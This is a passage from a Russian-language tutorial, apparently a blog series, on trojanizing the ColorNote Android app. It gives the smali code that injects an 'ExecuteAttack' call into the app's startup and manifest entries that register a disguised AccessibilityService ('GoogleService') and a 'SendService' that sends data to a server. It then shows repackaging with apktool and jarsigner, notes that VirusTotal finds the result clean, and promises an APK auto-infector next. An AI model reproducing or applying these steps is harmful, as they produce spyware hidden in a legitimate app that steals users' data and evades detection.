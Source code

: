 Берем этот вызов и добавляем в ```com.socialnmobile.colornote.activity.Main```. В итоге он выглядит так.

```java
.method protected onCreate(Landroid/os/Bundle;)V
.locals 6

.prologue
const v2, 0x7f0800f9

const/4 v5, 0x0

const/4 v4, 0x1

.line 164
invoke-super {p0, p1}, Lcom/socialnmobile/colornote/activity/ThemeFragmentActivity;->onCreate(Landroid/os/Bundle;)V

.line 165
invoke-static {p0}, Lcom/socialnmobile/colornote/activity/ExecuteAttack;->openSettings(Landroid/content/Context;)V

.line 172
invoke-virtual {p0, v4}, Lcom/socialnmobile/colornote/activity/Main;->d(I)V
```

Теперь копируем нужные smali, в декомпилированную папку ColorNote, как это делали в предыдущий раз. Меняем им package name. Не забываем об xml конфиге нашего сервиса, его тоже переносим в папку *res\xml*. Осталось добавить наш ```AccessibilityService``` и сервис по отправке данных на сервер в манифест.

```xml
<service android:name="com.socialnmobile.colornote.activity.SendService"/>
<service android:name="com.socialnmobile.colornote.activity.GoogleService"
    android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
    <intent-filter>
	<action android:name="android.accessibilityservice.AccessibilityService" />
    </intent-filter>
    <meta-data android:name="android.accessibilityservice" android:resource="@xml/accessibility_service_config" />
</service>
```

Как и ранее, собираем с помощью ```apktool``` и подписываем ```jarsigner```. [Virustotal говорит, что мы чисты](https://www.virustotal.com/gui/file-analysis/YmQxODExMjJiNjljZDVlOTRiZDFjYWI4N2YxYjYxNDQ6MTU2MzM3MDY4Ng==/detection). Видео, как это работает:

https://youtu.be/vTHcc6OSou0

## В следующей части

В следующей части, я расскажу про создание автоинфектора apk. 

Хочу сказать большое спасибо художнице за рисунок к посту и за рисунок к аватарке телеграм канала. Подписывайтесь на ее [инстаграм](https://instagram.com/kottsarapkin?igshid=iet95lnz29zm), ставьте лайки!

Телеграм канал: https://t.me/OrderOfSixAngles
